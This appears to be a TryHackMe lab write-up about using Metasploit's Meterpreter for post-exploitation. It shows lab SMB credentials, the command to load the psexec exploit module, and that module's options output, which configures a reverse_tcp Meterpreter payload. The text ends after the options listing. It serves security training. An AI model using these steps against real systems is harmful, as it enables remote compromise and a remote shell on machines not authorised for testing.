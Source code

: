 # Metasploit: Meterpreter
This THM room teaches how to use a meterpreter session in Metasploit.

## Start Meterpreter session

*The questions below will help you have a better understanding of how Meterpreter can be used in post-exploitation.*
*You can use the credentials below to simulate an initial compromise over SMB (Server Message Block) (using exploit/windows/smb/psexec)*

- Username: `ballen`
- Password: `Password1`

Use the module:

```bash
msf6 > use exploit/windows/smb/psexec
```

Now see what options it requires:

```bash
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   SERVICE_DESCRIPTION                    no        Service description to be used on target for
                                                     pretty listing
   ...


   Used when making a new connection via RHOSTS:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      no        The target host(s), see https://docs.metasploit.com/doc
                                         s/using-metasploit/basics/using-metasploit.html
   RPORT      445              no        The target port (TCP)
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none
                                        )
   LHOST     ***.***.***.***  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

```